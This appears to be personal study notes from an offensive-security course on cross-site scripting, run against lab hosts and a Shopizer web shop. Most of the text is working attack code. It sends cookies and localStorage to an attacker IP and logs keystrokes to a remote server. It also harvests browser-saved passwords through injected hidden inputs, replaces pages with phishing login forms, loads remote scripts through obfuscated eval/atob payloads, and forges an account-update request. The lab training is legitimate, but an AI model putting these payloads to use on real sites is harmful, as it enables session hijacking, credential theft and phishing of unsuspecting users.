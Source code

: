 #### Javascript method

=====
function processData(data) {
    data.items.forEach(item => {
      console.log(item)
    });
  }

let foo = {
    items: [
      "Hello",
      "Zdravo",
      "Hola"
    ]
  }

processData(foo)
=====

(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Functions ↩︎

2
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API ↩︎

3
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Window ↩︎

4
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Document ↩︎

type "allow pasting" in firefox web console.

====
let inputs = document.getElementsByTagName("input") 

for (let input of inputs){
    console.log(input.value)
}

====

#### key logging

====
function logKey(event){
	console.log(event.key);
	fetch("http://192.168.49.51/k?key=" + event.key);
}

document.addEventListener('keydown', logKey);
====

1
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Window/location ↩︎

2
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage ↩︎

3
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Document ↩︎

4
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/Events ↩︎

5
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch ↩︎

6
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise ↩︎

7
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Document/keydown_event ↩︎

In case of innerHTML script tag does not get executed. use img tag.
<img src=x onerror=alert(0)>

https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML ↩︎

====

<script src="http://<KALI_IP>/xss.js"></script>

echo "alert(1)" > xss.js

Host xss.js on kali

====
##### Encoded Cookie
nano xss.js
cat xss.js
----
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.49.51/exfil?data=" + encodedCookie)
----
python3 -m http.server 80

<script src="http://192.168.49.129/xss.js"></script>

<img src=x onerror=fetch("http://192.168.49.129/exfil?data="+encodeURIComponent(document.cookie))>



##### Encoded Local Storage
----

let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://192.168.49.51/exfil?data=" + encodedData)

----

<script src=http://192.168.49.57/xss.js></script>

<img src=x onerror=fetch("http://192.168.49.57/exfil?data="+encodeURIComponent(JSON.stringify(localStorage)))>


#### Keylogging

-----

>>> cat xss.js

function logKey(event){
        fetch("http://192.168.49.51/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);

-----

<script src=http://192.168.49.57/xss.js></script>

#### Stealing saved passwords

----

    let body = document.getElementsByTagName("body")[0]
  
    var u = document.createElement("input");
    u.type = "text";
    u.style.position = "fixed";
    //u.style.opacity = "0";
  
    var p = document.createElement("input");
    p.type = "password";
    p.style.position = "fixed";
    //p.style.opacity = "0";
 
    body.append(u)
    body.append(p)
 
    setTimeout(function(){ 
            fetch("http://192.168.49.51/k?u=" + u.value + "&p=" + p.value)
     }, 5000);


----

<script src=http://192.168.49.57/xss.js></script>

#### Phishing Users

----

fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://192.168.49.51"
	document.getElementsByTagName("form")[0].method = "get"
}))

----

 https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/Arrow_functions ↩︎
 
 >>>> cat phishing.js
 
 ---
 document.getElementsByTagName("html")[0].innerHTML = '<form action="http://192.168.49.57/login" method="get"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="username" required><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="password" required><button type="submit">Login</button></div></form>' 
 ---
 
 >>>> cat login.html
 
 ---
 <form action="http://192.168.49.57/login" method="get"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="username" required><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="password" required><button type="submit">Login</button></div></form>
 ---
 
Fetch only brings the content. But does not execute. so we are creating script element.
 
 <img src=x onerror="const script = document.createElement('script');script.src = 'http://192.168.49.57/phishing.js';script.async = true;document.body.appendChild(script);">


#### Shopizer

http://shopizer:8080/shop/category/handbags.html/ref=c:2'+alert(1)+'canary


c:2'+alert(1)+'canary

>>>>cat ~/xss/xss.js
alert('It worked!');

 jQuery.getScript('http://192.168.49.57/xss.js') 
 eval(atob(encoded data))
 
 '+eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDkuNTcveHNzLmpzJyk='))+'
 
 Better solution:
 '+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDkuNTcveHNzLmpzJyk=')))+'
 
 ------
 1
(PortSwigger, 2021), https://portswigger.net/burp/documentation/desktop/tools/target/site-map ↩︎

2
(Wikipedia, 2021), https://en.wikipedia.org/wiki/JQuery ↩︎

3
(jQuery, 2021), https://api.jquery.com/jquery.getscript/ ↩︎

4
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Glossary/Base64 ↩︎

5
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/atob ↩︎

6
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval ↩︎

-----

fetch('http://shopizer:8080/shop/customer/updateAddress.html',{
    method: 'POST',
    mode: 'same-origin',
    credentials: 'same-origin',
    headers: {
      'Content-Type':'application/x-www-form-urlencoded'
    }, 
    body:'customerId=&billingAddress=false&firstName=hax&lastName=hax&company=&address=hax&city=hax&country=AL&stateProvince=z&postalCode=z&phone=z&submitAddress=Change address'
  })
  
  -----

